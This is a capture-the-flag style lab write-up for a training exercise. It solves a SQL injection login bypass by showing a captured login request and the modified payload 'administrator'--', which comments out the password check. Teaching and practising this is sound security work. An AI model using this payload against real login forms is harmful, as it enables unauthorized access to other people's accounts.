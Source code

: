 # Lab: SQL injection vulnerability allowing login bypass
## Task
This lab contains an SQL injection vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user.

## Solution
The original POST request is:
```
POST /login HTTP/1.1
Host: ac0f1fb91e4d14cf80a903f200a100cd.web-security-academy.net
Cookie: session=6xNPtUMzVMrP2VIW54PysQfr47RD6HwF
Content-Length: 74
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="92"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://ac0f1fb91e4d14cf80a903f200a100cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ac0f1fb91e4d14cf80a903f200a100cd.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

csrf=w1HE2S5VZa0teQEU9kRtLfYbMUDOcMjl&username=administrator&password=test
```

To login successfully without a valid password, the payload is modified to:
```
username=administrator'--&password=test
```

![image](https://user-images.githubusercontent.com/44528004/130056546-5816ff8e-6fde-4af9-a520-e8d796c96662.png)

> Succeeded!
